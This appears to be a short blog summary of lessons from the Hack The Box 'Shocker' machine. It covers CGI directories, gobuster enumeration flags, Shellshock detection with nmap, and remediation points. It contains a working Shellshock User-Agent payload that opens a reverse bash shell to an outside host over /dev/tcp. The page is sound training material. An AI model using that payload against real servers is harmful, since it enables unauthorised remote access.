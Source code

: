 ```yaml
---
layout: single
title: "Shocker - HTB"
permalink: /shocker/
tags: [HTB, CTF, Bash, Shellshock]
toc: true
---
```

Instead of doing a writeup I have opted to write a summary of the things that I learnt from solving the Shocker of Hack The Box.

## Cgi-Bin

In computing, Common Gateway Interface (CGI) is an interface specification for web servers to execute programs like console applications (also called command-line interface programs) running on a server that generates web pages dynamically.  Such programs are known as CGI scripts or simply as CGIs.

Shellshock Script vulnerability affected web servers utilizing CGI

The path to "cgi-bin" directory is: `/var/www/html/ex/example.com/cgi-bin`
On Ubuntu, the standard cgi-bin directory is `/usr/lib/cgi-bin`.

## Gobuster -f

Sometimes a directory bursting tool may fail to list directories mainly because of restrition put on the files and directories. In such cases the webserver responds back with 403 status code, Indicating directory exist but you dont have permission to access it. A quick way to sort out this issue is by using the "-f" flag if the tool used was gobuster.

```python
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.56 -f
```
For quick discovery of files one can add the files extensions usinf the "-x" flag.

```python
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.56/cgi-bin/ -x sh,pl
```
To list the file extensions 

## Shellshock Script / Bash Bug

ACE(arbitrary code execution) vulnerability attacks are executed on programs that are running, and require a highly sophisticated understanding of the internals of code execution, memory layout, and assembly language—in short, this type of attack requires an expert.

![upload-image]({{ "/assets/imgs/notes/shellshock.png" | relative_url }})

```python
User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.15/4444 0>&1
```

To find out whether a target is vulnerable to shellshock, we use a nmap script.

```python
nmap -sV -p80 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls 10.10.10.56
```

## Points to note

* Web server misconfiguration. one isn't allowed to access the /cgi-bin directory but is allowed to access the user.sh file inside of that directory. The administrator should have restricted access to all the files in the directory.
* The system was running a version of Bash that was vulnerable to the bash bug. This gave us initial foothold. Administrator should have patched the system since there is a patch already out there.
* Insecure system configuration. Administrators should conform to the principle of least privilege and the concept of separation of privileges. Giving the user sudo access to run perl, allowed easy priviledge escalation of the system.